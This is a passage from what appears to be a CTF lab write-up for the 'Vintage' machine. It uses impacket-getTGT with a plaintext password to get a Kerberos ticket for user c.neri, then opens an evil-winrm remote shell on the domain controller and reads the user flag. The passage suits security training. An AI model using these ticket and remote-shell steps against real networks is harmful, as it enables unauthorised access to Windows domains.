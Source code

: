 ```bash
❯ impacket-getTGT vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in c.neri.ccache
```

And we export the kerberos ticket
```bash
export KRB5CCNAME=c.neri.ccache
```

Then we log in remotely using port 5985 and using the following command

```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```

```bash
❯ evil-winrm -i dc01.vintage.htb -r vintage.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline'
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cd ..
*Evil-WinRM* PS C:\Users\C.Neri> ls


    Directory: C:\Users\C.Neri


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---          6/7/2024   1:17 PM                3D Objects
d-r---          6/7/2024   1:17 PM                Contacts
d-r---          6/7/2024   1:19 PM                Desktop
d-r---          6/8/2024   3:02 PM                Documents
d-r---          6/7/2024   1:17 PM                Downloads
d-r---          6/7/2024   1:17 PM                Favorites
d-r---          6/7/2024   1:17 PM                Links
d-r---          6/7/2024   1:17 PM                Music
d-r---          6/7/2024   1:17 PM                Pictures
d-r---          6/7/2024   1:17 PM                Saved Games
d-r---          6/7/2024   1:17 PM                Searches
d-r---          6/7/2024   1:17 PM                Videos


*Evil-WinRM* PS C:\Users\C.Neri> cd Desktop
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> cat user.txt
b15d12695f2#########################
```
